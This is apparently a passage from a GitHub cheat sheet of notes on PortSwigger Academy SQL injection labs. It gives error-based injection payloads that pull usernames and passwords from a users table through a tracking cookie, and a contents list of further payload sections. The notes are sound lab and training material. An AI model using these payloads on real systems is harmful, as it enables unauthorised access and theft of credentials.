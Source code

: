 **SQL injection with filter bypass via XML encoding**

 <img width="743" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/b4c242f1-a270-4742-956b-e3e7d5ee44b1">

**confirms Visible error-based SQL injection by putting ' at the end of tracking ID, error is expected**
<img width="737" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/1079bfd6-ce5c-49f0-b857-cdf2a13150c5">

**query to return only one row and for user:**
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--

<img width="740" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/2af7161c-02f6-4304-8504-625ebbd7495f">

**query to return only one row and for password:**
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

<img width="738" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/81e17049-fff1-4605-a26d-4f9b99bb0614">

## Summary

* [Recon for SQLi Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

    * [Identification Payloads](#identification-payloads)

    * [Examples](#examples)

    * [Exploitation Payloads](#exploitation-payloads)

        * [SQLi UNION Technique Example](#sqli-union-technique-example)

        * [SQLi Blind Conditional Responses Examples](#sqli-blind-conditional-responses-examples)

        * [SQLi Blind Conditional Errors Examples](#sqli-blind-conditional-errors-examples)

        * [Visible Error-based SQL Injection](#visible-error-based-sql-injection)

        * [SQLi Blind Time Delays Examples](#sqli-blind-time-delays-examples)

        * [SQLi Out of Band Interaction](#sqli-out-of-band-interaction)

        * [SQL Injection with filter bypass via XML encoding](#sql-injection-with-filter-bypass-via-xml-encoding)

<br>


## Resources

* https://portswigger.net/web-security/sql-injection

* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

* https://owasp.org/www-community/attacks/SQL_Injection

* **Check out the Scripts folder for Blind SQL Injection Data Exfiltration scripts**
